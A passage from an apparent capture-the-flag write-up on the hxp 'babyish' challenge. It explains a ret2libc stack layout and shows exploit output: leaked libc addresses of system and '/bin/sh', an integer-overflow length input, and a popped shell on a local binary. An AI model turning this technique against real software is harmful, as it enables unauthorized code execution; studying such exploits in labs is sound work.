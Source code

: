 btw the reason why there is four bytes of data inbetween the address of `system` and the address of `/bin/sh` is because that is where the `system` function expects it's argument.

```
$	python exploit.py 
[+] Starting local process './vuln': pid 9558
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/hxp/bbpwn/babyish/vuln" 9558
[+] Waiting for debugger: Done
Give me the flag
Enter username: 
[*] Address of setbuffer: 0xf75da9e0
[*] Address of system: 0xf75b5060
[*] Address of binsh: 0xf76d9a0f
[*] Address of buffer: 0xffcf684c
Enter string (length 4294967168): 
[*] Switching to interactive mode
Thanks, bye!
$ ls
core         leak.py            peda-session-ls.txt    vuln
exploit.py   libc.so.6            peda-session-vuln.txt  vuln.c
gadgets.txt  peda-session-dash.txt  readme.md
$ w
 14:05:41 up  2:56,  1 user,  load average: 0.25, 0.16, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               11:13    2:52m  1:36   0.03s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
```

Just like that, we popped a shell.
